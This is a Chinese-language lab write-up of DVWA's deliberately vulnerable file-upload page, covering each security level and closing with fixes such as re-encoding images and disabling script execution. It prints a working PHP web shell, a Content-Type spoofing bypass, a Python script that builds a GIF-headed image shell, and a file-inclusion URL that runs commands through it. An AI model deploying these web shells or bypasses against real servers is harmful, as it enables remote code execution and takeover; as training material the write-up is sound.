




# File Upload

上传文件既没有校验类型，也没有限制执行权限。传上去的脚本能被浏览器访问，也能被 PHP 解析，这就是一个直接落地的 RCE。

## 漏洞在哪

```php
$target_path = 'hackable/uploads/' . basename($_FILES['uploaded']['name']);
move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path);
```

后缀、类型、内容一律不看，文件名原样保留，目录就在 Web 根下。三个条件凑齐，上传即执行。

## 等级对照

| 等级 | 校验 | 本机结果 |
|---|---|---|
| Low | 无 | 直接传 PHP，`whoami` 执行成功 |
| Medium | 检查 `Content-Type` | 抓包改成 `image/jpeg` 后成功 |
| High | 后缀白名单 + `getimagesize()` | 图片马可上传，需配合文件包含才执行 |
| Impossible | 重新编码 + 随机文件名 + 禁执行 | 打不进去 |

## Low

| 项 | 内容 |
|---|---|
| 探针 | `info.php` 内容 `<?php phpinfo(); ?>` |
| 落地路径 | `http://127.0.0.1/dvwa/hackable/uploads/info.php` |
| 结论 | 页面输出完整 PHP 配置，说明被解析执行 |
| 危害 | 换成带参数的一句话即可任意命令执行 |

```php
<?php system($_GET['cmd']); ?>
```

访问 `...uploads/shell.php?cmd=whoami` 返回 `www-data`，权限与 Web 服务一致。




上传成功后还要看两件事：目录能不能列、文件有没有被重命名。DVWA 保留原始文件名，所以路径可以猜。

## Medium

| 项 | 内容 |
|---|---|
| 防护 | 检查 `$_FILES['uploaded']['type']`，只放 `image/jpeg`、`image/png` |
| 失败现象 | 直接传提示 `Your image was not uploaded.` |
| 绕过 | 抓 multipart 请求，把文件段的 `Content-Type` 改成 `image/jpeg` |

```
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: application/x-php        ← 改成 image/jpeg
```

改的是文件名后面那个 `Content-Type`，不是请求第一行的 `multipart/form-data`，这两处搞混是最常见的失败原因。

`$_FILES['file']['type']` 完全来自客户端。判断真实类型要用 `finfo_file()` 读文件内容。



## High

| 项 | 内容 |
|---|---|
| 防护 | 后缀白名单、大小限制、`getimagesize()` 校验真实图片 |
| 直接传 | `info.php` 被拒，`shell.php.jpg` 也被拒（内容不是合法图片） |
| 结果 | 图片马能上传，但直接访问不执行 |
| 出路 | 配合文件包含，用 `file://` 包装器加载 |

| 试法 | 结果 | 原因 |
|---|---|---|
| `info.php` | 失败 | 后缀不在白名单 |
| `shell.php.jpg` | 失败 | 后缀对，内容不是图片 |
| `normal.jpg` | 成功 | 只是一张图 |
| 图片马 | 上传成功 | 访问只输出乱码 |

造图片马用 Python 拼最小合法 GIF 头，再接 PHP 代码：

```python
from pathlib import Path

gif = (b"GIF89a" b"\x01\x00\x01\x00\x80\x00\x00" b"\x00\x00\x00\xff\xff\xff"
       b",\x00\x00\x00\x00\x01\x00\x01\x00\x00" b"\x02\x02D\x01\x00;")

php = b'<?php if(isset($_GET["cmd"])){system($_GET["cmd"]);} ?>'

out = Path(r"D:/phpstudy_pro/File Upload/123.jpg")
out.write_bytes(gif + php)
print(out.stat().st_size)
```

文件后缀是 `.jpg`，文件头是合法 GIF，`getimagesize()` 认内容不认后缀，所以能过。

上传后落在 `hackable/uploads/123.jpg`，再用文件包含执行：

```
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=file:///D:/phpstudy_pro/WWW/DVWA/hackable/uploads/123.jpg&cmd=whoami
```

`include` 读到 `<?php ?>` 会当代码解析，前面的二进制图片头直接输出，不影响执行。






这条链子要记牢：单独一个上传高危但不致命，单独一个包含未必能执行，两个凑一起就是 RCE。

## Impossible

```php
if (getimagesize($_FILES['uploaded']['tmp_name'])) {
    // 用 imagecreatefrom* 读入，再用 image* 重新输出
    // 随机文件名，不保留原扩展名逻辑
}
```

关键在重新编码。前面的绕过都是"通过检查但保留 payload"，重新编码把图片解成像素再生成一张新图，PHP 代码无处可藏。加上随机文件名和上传目录禁止执行脚本，三条一起才闭环。

## 容易记错的地方

- 改错 `Content-Type` 的位置，改成了请求行的 `multipart/form-data`，那是整个表单的类型。
- `copy /b` 拼图片马不稳定，源图本身有问题时 `getimagesize()` 就过不了，手写 GIF 头更可靠。
- 上传成功直接访问 `.jpg` 只看到乱码不是失败，说明文件在，只是服务器不解析该后缀。
- 后缀白名单要判最后一个点之后的部分，`shell.php.jpg` 在只查扩展名的实现里能过。

## 怎么修

| 措施 | 作用 |
|---|---|
| 后缀白名单 | 不用黑名单，只放业务需要的类型 |
| `finfo_file()` 读真实类型 | 不看请求头声明 |
| 图片重新编码 | 丢掉原始字节，图片马失效 |
| 随机文件名 | 不保留原名，防路径猜测与二次利用 |
| 上传目录禁执行 | `php_admin_flag engine off`，或放到 Web 根之外 |
